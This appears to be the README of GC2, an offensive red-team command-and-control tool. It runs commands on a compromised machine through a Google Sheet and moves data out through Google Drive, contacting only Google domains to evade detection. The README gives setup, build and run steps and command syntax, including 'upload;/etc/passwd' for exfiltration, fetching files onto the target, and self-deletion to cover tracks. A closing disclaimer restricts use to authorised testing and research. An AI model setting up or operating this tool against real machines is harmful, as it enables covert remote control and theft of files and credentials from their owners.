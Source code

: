 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    The preferred way to configure the C2 is by modifying the `options.yml` file inside the `cmd` directory.

    The `options.yml` file is structured as follows:

    ```
    key: # escaped JSON key
    sheet: # sheetID
    drive: # driveID
    verbose: # verbose true or false
    ```

6. **Build executable**
 
    ```
    go build gc2-sheet.go
    ```

7. **Run**

    If the configuration file has been modified just run:

    ```
    ./gc2-sheet
    ```

    Otherwise, it is possible to use the command options after compiling the C2:

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

## Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in column `A`, and the output will be printed in the column `B`. 

## Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

## Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

## Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Workflow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)
